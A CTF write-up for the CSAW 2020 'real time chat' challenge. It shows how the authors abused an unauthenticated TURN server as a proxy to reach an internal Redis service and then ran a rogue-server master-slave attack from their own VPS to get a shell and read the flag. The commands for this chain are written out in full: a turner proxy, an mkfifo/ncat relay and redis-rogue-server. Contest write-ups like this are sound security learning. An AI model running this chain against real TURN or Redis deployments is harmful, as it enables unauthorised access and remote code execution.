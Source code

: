 # WEB real time chat

<img src="src/challenge.png" alt="page" style="zoom:60%;" />

## Writeup Summary

- Challenge description
- Enumeration

### Challenge description

`I started playing around with some fancy new Web 3.1 technologies! This RTC tech looks cool, but there's a lot of setup to get it working... I hope it's all secure.`

`http://web.chal.csaw.io:4955`

they also included some files: `Dockerfile` , `supervisord.conf` and `app.py`.
supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www

```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]

```

### Enumeration

At first, we took a look at those files, which show up that there are 3 servers running, a Redis server (not exposed to external), gunicorn (flask web app server), and turn ( for webrtc ).

then we took a look at the web app, basically the frontend and what does it do,

<img src="src/frontend.png" alt="page" style="zoom:25%;" />

we found that it's sending requests to the flask app (the API) (OBVIOUSLY), and the file `rtc.js` is the source of this request, we checked it out, and after reading the some code we found the turn communication config, the turn host `web.chal.csaw.io:3478`, the username and password (empty):

```js
const iceConfiguration = {
  iceServers: [
    {
      urls: "turn:web.chal.csaw.io:3478",
      username: "",
      credential: "",
    },
  ],
  // Doesn't work to force relay only transport, something must be busted...
  //iceTransportPolicy: "relay"
};
```

We were new to webRTC, so we started googling and trying to learn about it, and about the turn server and the attacks vectors we can apply on it, we tried also to find a vulnerabilities in the web API but we get nothing, then we found a really interesting article `https://www.rtcsec.com/2020/04/01-slack-webrtc-turn-compromise/#a-very-brief-introduction-to-the-turn-protocol` talking about how to abuse a turn server and get access to internal services like Redis in our case, a really nice article and attack they are using, it suits our case very well, but there is a problem, they are using an internal tool called `stunner` that we couldn't find, so we just start searching for alternatives, we found a PoC for the same attack called `turner: https://github.com/staaldraad/turner` by `staaldraad`, after we found this we tried very hard to make it working even with the a lot struggles (the internet connection in our country was so bad :/ ) even tho we make it, we started testing if it's working,

run turner with turner config we found earlier:
`./turner -server web.chal.csaw.io:3478 -u '' -p ''`

send a request to our vps:
`curl -x http://localhost:8080 http://x.x.x.x`

this worked so well, so we used the browser also to load the app `http://0.0.0.0:5000` using the proxy and worked just fine.

now we are sure the proxy is working but how we can connect to Redis?!

we found that we can use an HTTP proxy with ncat, so we crafted really nice chaining:
`rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|ncat -lkp 1337 2>&1 |ncat --proxy-type http --proxy localhost:8080 0.0.0.0 6379 > /tmp/f`

this is basically connect to redis service on host: `0.0.0.0`, port :`6379` using proxy `http://localhost:8080` and forward it that to the port: `1337`

we tested the connection using simple command Redis command `INFO`:
`{printf "INFO\r\n"; sleep 1} | nc localhost 1337 -vvv`
worked perfectly!!!

we also tried to connect using `redis-cli` but it didn't work, it started sending some random data, so we settled on the raw commands sending!

In this step we had to get rce or read a file (flag), we had two options, crafting rce by ourself using raw Redis commands (our last option :3) or use tools, the redis-cli didn't work so we couldn't use the regular Redis attack using the config command,

we found many tools, that uses the master-slave attack we tried some but I'm gonna mention only the tool that worked for us:
https://github.com/n0b0dyCN/redis-rogue-server

Making this tool working was an adventure, as I mentioned before we had an internet problem in our country :/ and the ssh wasn't even working to get into our VPS,
So here is how it has been done:

- we used digitalocean web console to set up the Redis `redis-rogue-server`.
- we had already turner connected and also the ncat connect to Redis as I mentioned before.
- the last step was to connect the Redis service from our local port `1337` to `redis-rogue-server` in our VPS, we used ngrok.

```
./redis-rogue-server.py --rhost [ngrok url] --rport [ngrok port] --lhost [vps public ip]
```

then choose the Interactive shell: `cat /flag.txt`
`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`

<img src="src/flag.png" alt="page" style="zoom:60%;" />

in this challenge, we learned a lot, it's a good challenge that we really loved, big thanks to CSAW CTF 2020 organizers.
